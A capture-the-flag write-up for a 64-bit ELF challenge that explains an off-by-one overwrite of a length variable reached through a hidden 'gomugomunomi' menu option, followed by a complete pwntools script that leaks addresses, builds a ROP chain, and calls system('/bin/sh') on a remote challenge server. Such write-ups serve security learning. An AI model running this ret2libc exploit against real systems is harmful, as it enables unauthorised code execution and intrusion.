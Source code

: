 
![task2](imgs/4.png)
### Information
We were given a 64bit ELF file.
When we run the binary, the program is showing a menu , ( read run and exit ). The run function is useless, so we can only perform the read operation.

![task2](imgs/5.png)

But when decompiling the binary, we have one more option that is not shown in the menu message, which is "gomugomunomi" that calls mugiwara function.

The **mugiwara** function seems a bit complicated,first it initialize an integer variable named  **len** to 40.

Then it's copying each char of the buffer that we've read from the readSC function into another buffer.Finally, it's using fgets to read "len" bytes.

Inside the loop, it's checking if the char is 'z', if true, it'll execute buffer2[++i] = 0x89. So the idea is to trigger an off-bye-one bug by giving some buffer terminated by "zz". 

Example : buffer = "A"*37 + "zz"
- i = 37 ==> buffer[37] = 'z' , condition true, ==> buffer[++37] = buffer[38] = 0x89 , i++
- i = 39 ==> buffer[39] = 'z', condition true, ==> buffer[++39] = buffer[**40**] = 0x89 i++

the last operation will trigger a bufferoverflow, overwriting the **len** variable  by 0x89 which will be used in the fgets.
                      
                      

![task2](imgs/7.png)


![task2](imgs/6.png)


### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
from time import sleep
#p = process("./one_piece")
p = remote("100.26.85.87",1238)
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazz"
p.sendline("read")
p.sendline(payload)
p.sendline("gomugomunomi")
p.recvuntil("right ? : ")
leak = int("0x" + p.recvline(),16)
binaire = leak - 0xa3a
puts_plt = binaire + 0x720
printf_plt = binaire + 0x1040
#Gadgets
poprdi = binaire + 0xba3
ret = binaire + 0x000000000000070e

log.info("binary base = "+hex(binaire))
pause()
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binaire+0x201fa0) #puts_got
payload += p64(puts_plt)
payload += p64(binaire+0x7a0) #_start

p.sendline(payload)
p.recvline()

leaklibc = u64(p.recvline().ljust(8,"\x00")) % 0xa000000000000
print "leaklibc = ",hex(leaklibc)
base = leaklibc - libc.symbols['puts']
log.info("libc base = "+hex(base)) 
p.sendline("read")
p.sendline("A"*37 + "zz")
p.sendline("gomugomunomi")
sleep(2)
system = base + libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.info("/bin/sh = "+hex(binsh))
log.info("system = "+hex(system))
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(leak+0x5)
p.sendline(payload)
log.warn("sending payload ...")
p.sendline("cat flag.txt")
p.interactive()
```
